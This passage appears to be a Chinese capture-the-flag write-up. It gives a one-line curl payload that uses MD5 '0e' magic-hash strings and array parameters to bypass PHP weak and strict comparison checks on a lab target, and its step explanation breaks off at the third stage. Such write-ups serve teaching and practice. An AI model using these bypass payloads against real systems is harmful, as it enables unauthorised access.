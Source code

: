 
### 现成 payload（一键通）

**bash**复制

```bash
curl -X POST \
  -d 'a=QNKCDZO&b=s878926199a&aa[]=1&bb[]=2&aaa[0][0]=1&bbb[1]=2' \
  http://靶机IP/index.php
```

解释：

* 第一关：0e 弱相等 ✅
* 第二关：两个空数组转 NULL 强相等 ✅
* 第三关：

